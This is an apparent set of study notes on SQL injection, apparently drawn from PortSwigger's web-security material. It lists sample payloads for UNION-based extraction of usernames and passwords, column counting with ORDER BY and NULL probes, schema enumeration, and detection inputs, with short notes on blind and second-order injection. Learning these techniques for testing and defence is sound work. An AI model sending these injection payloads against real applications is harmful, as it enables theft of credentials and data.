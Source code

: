 # Web Security resources 


#### Retrieving data from other database tables

```sql
>  ' UNION SELECT username, password FROM users-- 
```
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

##### Determining the number of columns required in an SQL injection UNION attack

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 1-- ... ERROR!

' UNION SELECT NULL-- ERROR!
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- ERROR!
```

#### Examining the database

```sql
> SELECT * FROM information_schema.tables 
```

#### Blind SQL injection vulnerabilities

##### Techniques

- ***Out-of-band network interaction***
- ***Time lapses***

#### How to detect SQL injection vulnerabilities

```sql
> '
> OR 1=1 | OR 1=2
```

#### SQL injection in different parts of the query

- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.

#### Second-order SQL injection

 First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. 

#### Database-specific factors

- [Cheatsheet of different databases](https://portswigger.net/web-security/sql-injection/cheat-sheet)












